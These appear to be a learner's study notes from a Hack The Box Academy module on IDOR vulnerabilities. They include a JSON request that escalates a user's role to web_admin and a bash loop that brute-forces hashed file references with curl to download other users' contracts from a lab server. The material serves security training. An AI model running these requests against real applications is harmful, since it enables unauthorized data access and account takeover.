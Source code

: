 
## IDOR Root Cause
IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects.
```
, if users request access to a file they recently uploaded, they may get a link to it such as (`download.php?file_id=123`). So, as the link directly references the file with (`file_id=123`), what would happen if we tried to access another file (which may not belong to us) with (`download.php?file_id=124`)?
```

##### an IDOR vulnerability mainly exists due to the lack of an access control on the back-end

## idor in insecure APIs (this part is heaviy on screenshots and scenairos)
https://academy.hackthebox.com/module/134/section/1201

detect role/uuid values by trying get requests (idor information disclosure)
locate users with admin roles
attempt idor post calls 
ensue ids/uids/ api query params match etc when trying to access other users 

Now, with the user's `uuid` at hand, we can change this user's details by sending a `PUT` request to `/profile/api.php/profile/2` with the above details along with any modifications we made, as follows:
`JSON IN API REQUEST`
```json
{ 
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
``````
We may modify the admin's details and then perform one of the above attacks to take over their account. However, as we now know the admin role name (`web_admin`), we can set it to our user so we can create new users or delete current users. To do so, we will intercept the request when we click on the `Update profile` button and change our role to `web_admin`:

`
### Encoded References
In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

![[Pasted image 20250812233942.png]]
### bypassing encoded references
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
lets say devs did the obfuscation in frontend and u were able to obtain this function
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

script it
```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

